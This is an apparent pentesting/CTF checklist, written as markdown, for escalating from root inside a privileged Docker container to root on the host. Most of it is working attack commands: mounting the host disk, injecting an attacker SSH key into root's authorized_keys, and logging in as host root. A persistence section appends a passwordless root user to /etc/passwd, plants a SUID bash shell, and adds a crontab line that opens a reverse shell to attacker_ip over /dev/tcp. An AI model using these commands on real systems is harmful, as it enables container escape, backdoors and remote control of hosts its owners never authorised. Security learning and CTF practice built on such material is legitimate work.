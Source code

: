 ```yaml
---
title: "🧨 Root-to-Host Privilege Escalation via Docker"
description: "A concise checklist for escalating from root inside a Docker container to root access on the host system."
tags: [docker, privilege-escalation, pentesting, CTF, root, linux]
date: 2025-08-02
---
```


# 🧨 Root-to-Host Privilege Escalation via Docker (Checklist)

## 🧠 Scenario:
I gained root access *inside a Docker container* and want to escalate to root *on the host*.

---

## ✅ Step 1: Confirm you're inside a container (not host)
Check:
```bash
cat /etc/hostname
cat /proc/1/cgroup
```
Look for signs like:
- Hostname = short hex (e.g. e6ff5b1cbc85)
- `docker` or `containerd` in `/proc/1/cgroup`

---

## ✅ Step 2: Enumerate block devices
Look for mounted host devices:
```bash
lsblk
mount
df -h
```

You're looking for something like `/dev/vda1`, `/dev/sda1`, or `/dev/mapper/...`

---

## ✅ Step 3: Mount the host's root filesystem
If you find a likely device:
```bash
mkdir /mnt
mount /dev/vda1 /mnt
```

Check if `/mnt/root`, `/mnt/etc`, and `/mnt/home` exist — you're now looking at the host filesystem.

---

## ✅ Step 4: Inject your SSH key into the host’s root account

### On your attacker box:
```bash
ssh-keygen -t ed25519 -f myhostrootkey
cat myhostrootkey.pub
```

### Inside the container:
```bash
mkdir -p /mnt/root/.ssh
echo 'ssh-ed25519 AAAAC3Nz... attacker@box' >> /mnt/root/.ssh/authorized_keys
chmod 700 /mnt/root/.ssh
chmod 600 /mnt/root/.ssh/authorized_keys
```

---

## ✅ Step 5: SSH into the host as root
From your box:
```bash
ssh -i myhostrootkey root@<host-ip>
```

Discover the host’s IP from inside the container:
```bash
ip route | grep default
```

Try:
```bash
ssh -i myhostrootkey root@172.17.0.1
```

---

## ✅ Step 6 (Optional): Clean up
Inside the container:
```bash
rm -f /mnt/root/.ssh/authorized_keys
```

---

## 🧠 Why this works:
- A **privileged Docker container** is allowed to mount host block devices
- If `/root/.ssh/authorized_keys` is writable, we can inject a key for **passwordless root access**
- This technique bypasses login protections entirely — we "become" the host root

---

## ✅ Bonus: Alternate host-root options
- Drop a SUID binary in `/mnt/usr/bin/`
- Overwrite `/etc/shadow` to reset the root password
- Edit `/etc/cron.d/` for persistence

---

## 📌 Visual Diagram (Conceptual)

```
[ Attacker Box ]
       |
       | ssh (with private key)
       v
[ Host System ]
   /root/.ssh/authorized_keys  <-- injected public key
       ^
       | mounted at /mnt/root inside container
       |
[ Privileged Docker Container ]
       |
       | mount /dev/vda1 /mnt
       v
[ Host Filesystem Visible in Container ]
```

---

## 🏁 Root Flag Collection

Once the host’s root filesystem is mounted:
```bash
cat /mnt/root/root.txt
```

If root.txt is stored elsewhere (e.g., `/home/user/root.txt`):
```bash
find /mnt -name root.txt
```

---

## 🛡️ Optional Persistence Techniques

From within the container (with host mounted at `/mnt`), you can:
- **Create a backdoor root user**:
  ```bash
  echo 'hacker::0:0:root:/root:/bin/bash' >> /mnt/etc/passwd
  ```

- **Drop a SUID shell**:
  ```bash
  cp /bin/bash /mnt/usr/bin/rootbash
  chmod +s /mnt/usr/bin/rootbash
  ```

- **Edit crontab for scheduled reverse shell**:
  ```bash
  echo '* * * * * root bash -i >& /dev/tcp/attacker_ip/4444 0>&1' >> /mnt/etc/crontab
  ```

- **Replace /etc/shadow root password hash** (dangerous but effective)

---

## 🧹 Clean Up (optional, for CTF or OpSec)
```bash
rm -f /mnt/root/.ssh/authorized_keys
rm -f /mnt/usr/bin/rootbash
# remove any crontab or backdoor users if added
```

---

**Remember**: A privileged container is a root-level foothold — anything mounted from the host is fair game. Always treat Docker privilege carefully in production.
